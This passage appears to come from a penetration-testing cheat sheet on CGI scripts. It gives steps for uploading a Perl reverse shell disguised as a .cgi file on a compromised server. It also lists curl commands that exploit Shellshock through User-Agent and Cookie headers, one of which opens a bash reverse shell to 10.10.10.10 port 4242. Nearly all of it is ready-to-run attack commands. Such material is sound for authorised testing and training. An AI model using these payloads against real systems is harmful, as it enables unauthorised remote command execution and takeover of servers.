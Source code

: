 The CGI scripts are perl scripts, so, if you have compromised a server that can execute .cgi scripts you can upload a perl reverse shell (/usr/share/webshells/perl/perl-reverse-shell.pl), change the extension from .pl to .cgi, give execute permissions (chmod +x) and access the reverse shell from the web browser to execute it.

### Testing for Shellshock in CGI scripts 

```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

```bash
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
```

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
```

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```